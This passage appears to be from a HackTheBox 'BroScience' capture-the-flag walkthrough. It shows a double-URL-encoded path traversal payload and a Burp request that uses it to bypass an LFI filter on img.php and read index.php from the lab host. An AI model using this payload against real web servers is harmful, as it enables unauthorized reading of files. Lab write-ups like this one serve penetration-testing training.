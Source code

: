   <img src="/images/walkthroughs/hackthebox/broscience/1_7_attack.png" width="80%">
</p>  

An easy LFI bypass with double URL encode will do the trick:

```bash
# Payload:
%252e%252e%252f

# URL decode:
%2e%2e%2f 

# URL decode 2:
../

```

Use it on burp and check the result:

```bash
GET /includes/img.php?path=%252e%252e%252findex.php HTTP/1.1
Host: broscience.htb
```

And get the file included in the response:

<p align="center">